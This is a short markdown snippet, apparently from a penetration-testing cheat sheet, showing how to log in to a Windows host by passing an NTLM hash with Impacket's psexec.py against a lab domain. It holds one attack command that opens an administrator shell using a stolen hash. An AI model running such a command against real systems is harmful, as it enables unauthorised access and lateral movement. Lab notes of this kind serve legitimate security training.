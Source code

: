 # PSExec

## Log in with PsExec by "Passing the hash"

Note that this is not a vulnerability, this is how NTLM works

```bash
psexec.py -hashes PUT_THE:HASH_HERE administrator@spookysec.local
get cmd
```